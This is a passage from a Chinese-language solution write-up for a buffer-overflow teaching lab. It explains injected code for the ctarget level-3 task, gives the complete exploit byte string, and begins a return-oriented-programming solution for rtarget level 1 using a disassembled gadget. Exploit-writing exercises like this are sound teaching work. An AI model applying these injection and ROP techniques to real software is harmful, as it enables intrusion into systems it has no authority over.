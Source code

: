 ##	解决思路
&emsp;&emsp;仔细观察hexmatch函数，由于下面这行代码的存在，hexmatch可能会分配110个字节的空间，而这110个字节是在栈上分配的！也就是说getbuf的输入内容很可能会被覆盖。那么我们应该把cookie字符串放哪里好呢？一个自然的想法是放在当前rsp栈帧的很后面，保证不会被后面函数申请的栈帧覆盖，然而这很难；第二种选择就是往上覆盖之前函数的栈帧，这样一来地址就确定了，而且不怕被后来的函数覆盖。
```c
 char *s = cbuf + random() % 100;
```
&emsp;&emsp;那么接下来就很简单了，生成下面代码的字节码，然后在rsp+0x28处写上touch3的函数地址，在rsp+0x30处写上cookie的16进制表示的ascii值。因为rsp+0x30属于test函数，把字符串放这里不用怕被后面的函数覆盖掉，因为test函数一直没有返回，所以其申请的栈帧一直有效。  
```
mov $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

最后得到输入的字节码：
```
48 c7 c7 a8 dc 61 55 68 fa 18 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 00
```


#	Rtarget-level-1
Rtarget的程序加入了以下两项保护措施，无法像ctarget一样直接定位栈帧位置。
*	栈随即初始化，每次运行栈地址都不确定，不能再像上面一样，通过修改固定栈位置的值来改变函数跳转的地址。
*	栈内部的代码不允许执行。

##	问题描述
&emsp;&emsp;和Ctarget-level-2的问题一样，覆盖getbuf的返回地址跳转到touch2处，并且输入自己的cookie值作为touch2的函数参数。不同的是，这里要求使用ROP方式。    

&emsp;&emsp;因为这里使用了栈随机化，程序每次运行的栈位置都不一样，不想用ROP也不行。  

##	解决思路
首先反汇编rtarget，并且找到start_farm至end_farm处的代码（节选）：
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```

可以发现，地址0x4019a2处开始48 89 c7 c3恰好构成一条gadget，并且是mov %rax, %rdi。而%rdi正是我们传进touch2的参数。   

剩下的有两件事：
*	第一，将cookie值赋值给%rax。
*	第二，跳转到touch2函数。    

然后我们接着找，看看有没有含有cookie值的字节码。  
